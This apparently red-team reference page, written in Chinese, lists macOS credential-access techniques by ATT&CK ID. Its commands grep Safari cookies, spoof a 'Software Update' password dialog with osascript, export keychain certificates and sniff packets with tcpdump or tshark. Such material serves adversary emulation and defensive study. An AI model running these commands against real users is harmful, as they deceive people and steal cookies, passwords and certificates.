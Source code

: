 

## T1555.003 - Credentials from Web Browsers

红队可以在通常使用的浏览器中查找凭据,Demo如下

###### Demo1 查找Safari的cookie

这个demo使用grep命令来查找Safari的cookie，这项技术在CookieMiner病毒中曾经运用过

```
cd ~/Library/Cookies
grep -q "#{search_string}" "Cookies.binarycookies"
```



## T1056.002 - GUI Input Capture

红队可以制作一个伪装的GUI来诱导用户输入凭证，Demo如下

###### Demo1 AppleScript - Prompt User for Password

```
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```



## T1555.001 - Keychain

Security是Mac系统中钥匙串和安全模块的命令行管理工具，（图形化工具为Keychain  Access.app）。钥匙串（Keychain）实质上就是一个用于存放证书、密钥、密码等安全认证实体的仓库，在计算机中保存为一个.keychain的文件，默认存放在以下目录中（使用这几个目录中的钥匙串时不需要写路径，直接用文件名即可，Security工具会自动搜索）：

- ~/Library/Keychains/
- /Library/Keychains/
- /Network/Library/Keychains/

可以使用security命令查看keychain

```
security -h
security find-certificate -a -p > #{cert_export}
security import #{cert_export} -k
```



## T1040 - Network Sniffing

红队使用网络抓包获取一些用户凭证,其实就是简单的抓包，Demo如下

```
sudo tcpdump -c 5 -nnni #{interface}    
if [ -x "$(command -v tshark)" ]; then sudo tshark -c 5 -i #{interface}; fi;
```
